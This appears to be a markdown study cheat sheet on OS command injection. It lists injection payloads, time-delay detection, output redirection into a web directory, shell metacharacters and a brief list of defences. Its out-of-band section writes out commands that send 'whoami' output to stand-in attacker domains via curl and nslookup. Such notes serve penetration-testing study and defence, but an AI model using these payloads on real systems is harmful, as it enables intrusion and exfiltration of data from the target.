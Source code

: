 ## Command injection
- ``` & echo qwerty & ```
  - Placing & after the injected command is generally useful because it separates the injected command from whatever follows the injection point

## Blind OS command
- ### Detection
  - ``` & ping -c 10 127.0.0.1 & ```
    - 10 sec... time delay
- ### Exploit
  1)
      - Redirecting output -> (you must have write permission)
      - ``` & whoami > /var/www/static/whoami.txt & ```
      - ``` curl https://website.com/whoami.txt ```
  2)
      - Out-of-band techniques
      - ``` & curl `whoami`.webserver-attacker.com & ``` (HTTP traffic may be blocked)
      - ```& nslookup `whoami`.kgji2ohoyw.web-attacker.com &```

## Bypass restriction
- There are so many ways ...
  - https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions

## Metacharacters
- Windows & Unix
  - &
  - &&
  - |
  - ||
- Unix
  - ;
- Unix inline execution 
  - \`command\`
  - $(command)

## Defences
- Whitelist of permitted values
- Validating that the input is a number
- Validating that the input contains only alphanumeric characters, no other syntax or whitespace
- Never attempt to sanitize input by escaping shell metacharacters
